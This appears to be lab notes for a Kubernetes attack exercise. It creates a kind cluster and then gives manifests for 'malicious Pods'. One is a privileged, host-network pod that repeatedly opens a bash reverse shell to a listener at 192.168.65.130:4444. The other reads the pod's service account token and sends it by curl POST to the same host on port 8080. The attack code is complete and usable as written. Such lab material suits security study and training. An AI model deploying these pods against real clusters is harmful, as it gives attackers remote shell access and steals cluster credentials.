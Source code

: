 		
		- Create the kind cluster from the yaml file.
			sudo kind create cluster --config kind-config.yaml
			sudo kubectl cluster-info --context kind-attacker-lab  # check the cluster info
			sudo kubectl cluster-info dump  dump cluster information
			sudo kind delete clusters --all   #delete cluster
					
-------------------------------------------------------			


	3. Deploy malicious Pods	
		- Setup malicious reverse-shell.yaml
			apiVersion: v1
			kind: Pod
			metadata:
			  name: reverse-shell
			spec:
			  hostNetwork: true
			  containers:
			  - name: attacker
				image: debian
				securityContext:
				  privileged: true
				command:
				  - /bin/bash
				  - -c
				  - |
					apt update;
					apt install -y netcat-traditional;
					echo "Reversing persistently...";
					while true; do
					  /bin/bash -i >& /dev/tcp/192.168.65.130/4444 0>&1;
					  sleep 10;
					done
			
			- Deploy reverse-shell pod
				nc -nlvp 4444
				sudo kubectl apply -f reverse-shell.yaml
		


		- Setup tokenstealer.yaml 
			nc -nlvp 8080
			#token-stealer.yaml
			apiVersion: v1
			kind: Pod
			metadata:
			  name: token-stealer
			spec:
			  containers:
			  - name: stealer
				image: debian
				command:
				  - /bin/bash
				  - -c
				  - |
					apt update && apt install -y curl jq;
					TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token);
					curl -X POST http://192.168.65.130:8080 --data "token=$TOKEN";
					sleep 30
			  restartPolicy: Never
			  